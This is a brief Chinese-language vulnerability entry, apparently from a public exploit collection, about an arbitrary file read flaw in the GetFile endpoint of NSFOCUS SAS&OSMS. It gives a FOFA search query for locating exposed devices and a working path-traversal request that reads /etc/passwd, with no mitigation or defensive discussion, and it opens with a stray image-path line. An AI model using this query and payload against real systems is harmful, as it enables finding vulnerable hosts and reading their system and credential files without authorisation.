 # 绿盟 SAS&OSMS GetFile 任意文件读取漏洞

## 网络测绘

fofa: body="'/needUsbkey.php?username='"

## POC / EXP

```
/webconf/GetFile/index?path=../../../../../../../../../../../../../../etc/passwd
```